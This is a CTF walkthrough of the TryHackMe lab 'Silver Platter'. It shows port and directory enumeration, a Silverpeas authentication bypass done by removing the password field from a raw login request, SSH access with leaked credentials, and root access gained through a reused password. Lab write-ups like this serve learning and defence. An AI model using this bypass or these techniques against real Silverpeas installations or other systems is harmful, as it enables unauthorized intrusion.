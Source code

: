 # Hack Log 16 - TryHackMe [Silver Platter](https://tryhackme.com/room/silverplatter)

📆:**Date:** 2025-10-07  
🔍**Objective:** Obtain user and the root flag.  
🎯**Target**: TryHackme Silver Platter (Lab CTF)  

---  

## 🛠️ Actions Taken  

### 🧰 Port and Service Enumeration

```bash

$ nmap -sV 10.201.74.112
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-16 11:03 IST
Nmap scan report for 10.201.74.112
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
8080/tcp open  http-proxy
```
→ A webpage is being served on port 80.  
→ A http proxy is running on port 8080.  


### 📂 Directory Enumeration  

→ Enumerating site served on port 80.  
```bash

ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.201.74.112/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.201.74.112/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 215ms]
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 230ms]
```
→ Nothing interesting.  
→ Enumerating http-proxy served on port 8080.  

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.201.74.112:8080/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.201.74.112:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

console                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 236ms]
website                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 218ms]
```
→ Visiting the "console" and "website" resulted in just page not found error.  

### 🔐 Authentication Bypass  
→ Upon exploring the website on port 80, found a message on Contacts page.  
```html
If you'd like to get in touch with us, please reach out to our project manager on Silverpeas. His username is "scr1ptkiddy".
```
→ The message mentions "Silverpeas" and a username "scr1ptkiddy".  
→ Silverpeas is an open-source software for collaboration in a company environment.  
→ Silverpeas was running on port 8080 at "http://10.201.74.112:8080/silverpeas". Visiting the address gave a Login Page.  
→ Upon researching about vulnerabilities in Silverpeas, found an authentication bypass vulnearbility in silverpeas.  
→ This vulnerability allows unauthenticated access by omitting the "password" field from the Login request to AuthenticationServlet.     
→ Intercepting the login request on Burp.  
  ```html
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.201.74.112:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.201.74.112:8080
Connection: keep-alive
Referer: http://10.201.74.112:8080/silverpeas/defaultLogin.jsp
Cookie: JSESSIONID=y-dOkJy1a-luTcqZiBg0vPXC0RAHpit9c10k9z9E.ebabc79c6d2a; defaultDomain=0; svpLogin=Manager
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Login=scr1ptkiddy&Password=pass&DomainId=0
```
→ Modifying the request by completely omitting the Password field.  

```html
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.201.74.112:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.201.74.112:8080
Connection: keep-alive
Referer: http://10.201.74.112:8080/silverpeas/defaultLogin.jsp
Cookie: JSESSIONID=y-dOkJy1a-luTcqZiBg0vPXC0RAHpit9c10k9z9E.ebabc79c6d2a; defaultDomain=0; svpLogin=Manager
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Login=scr1ptkiddy&DomainId=0
```

→ Forwarding the intercepted request resulted in succesfull login as user "scr1ptkiddy".  
→ Upon exploring the Silverpeas portal, found 2 more users 
- Manager
- Administrateur  

→ Attempted to login as Administrateur using the same bypass technique but it didn't worked.  
→ Succesfully logged in as "Manager" via the same bypass technique.  
→ The inbox of the user "Manager" on Silverpeas portal had a message  
```bash
Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes. 

Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```
→ Found the SSH credentials.  

### 💻 SSH Login  

→ Using the found credentials, succesfully logged in via ssh as user "tim".  
→ Found the first flag in "user.txt" in "/home/tim" directory.  

### 🪜 Privilege Escalation  

→ There were no binaries with SUID bits.  
→ Using "sudo -l" didn't worked.  
→ Upon exploring the "/var/log" directory, there was the log file "auth.log.2" in which there was this entry
  ```html
tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```
→ There is an another user named "tyler" and there is the password for POSTGRES.  
→ Tried running the postgres image but the user "tim" was not permitted to run docker.  
→ Exploring further in the same directory found a directory named "installer". This directory contained more logs.  
→ The "autoinstall-user-data" file in the "installer" directory had the below entry  
```html
identity:
    hostname: silver-platter
    password: $6$uJuA1kpnd4kTFniw$/402iWwKzcYD8AMHG6bY/PXwZWOkrrVmtoO7qQpfvVLh1CHmiKUodwMGP7/awDYtrzpDHV8cNbpS1HJ6VMakN.
    realname: root
    username: tyler
```  
→ This revealed the password hash for user tyler and it also worth noting that tyler is also root.  
→ The password hash was SHA512 and was salted which rendered cracking the hash not feasible.  
→ Reusing the previously found Postgres password for user tyler gave access as user tyler.  
→ Since the user "tyler" is also root, therefore succesfully obtained the root flag from "/root/root.txt".  


## 🔍 Key Findings  

→ Authentication Bypass vulnerability in Silverpeas proved useful in gaining intital access.  
→ Lack of unique password resulted in privilege escalation to root. 

## 📚 What I Learned ?
→ Bruteforce should be the last resort, it is always recommended to enumerate more and more.  
→ Reusing passwords can be the worst mistake made by system admins.  









